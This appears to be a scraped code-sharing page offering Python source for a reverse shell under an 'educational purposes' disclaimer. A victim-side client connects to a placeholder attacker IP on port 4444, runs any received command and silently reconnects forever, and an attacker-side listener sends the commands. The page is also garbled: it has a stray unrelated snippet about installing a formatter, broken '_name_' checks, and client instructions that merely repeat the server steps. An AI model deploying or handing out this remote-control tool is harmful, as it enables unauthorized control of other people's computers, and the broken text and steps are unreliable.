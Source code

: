 This is a simplified example for educational purposes only. In a real-world scenario, such tools are often much more complex and include various features for evading detection, encrypting communications, and more.
# Install black
pip install black

# Format code with black
black your_script.py


**Client.py (Victim's Machine)**
import socket
import subprocess
import os

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attacker_ip", 4444))  # Replace "attacker_ip" with the attacker's IP address
    while True:
        command = s.recv(1024).decode()
        if command.lower() == "exit":
            break
        output = subprocess.getoutput(command)
        s.send(output.encode())
    s.close()

def main():
    while True:
        try:
            connect()
        except:
            pass

if _name_ == "_main_":
    main()
`
**[**Attacker.py**`]**
import socket

def start_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 4444))  # Bind to all available interfaces on port 4444
    s.listen(1)
    print("Waiting for connection...")
    conn, addr = s.accept()
    print(f"Connected to {addr}")
    while True:
        command = input("Enter command: ")
        conn.send(command.encode())
        if command.lower() == "exit":
            break
        output = conn.recv(4096).decode()
        print(output)
    conn.close()

if _name_ == "_main_":
    start_server()

**
**Steps for execution******
Set Up the Attacker's Machine:

Open a terminal or command prompt on the attacker's machine.
Save the Server.py script to a file, for example, server.py.
Run the server script:
sh

python server.py
*
*
The server will start listening for incoming connections on port 4444
**In client terminal**
Open a terminal or command prompt on the attacker's machine.
Save the Server.py script to a file, for example, server.py.
Run the server script:
sh

python server.py
The server will start listening for incoming connections on port 4444.


    
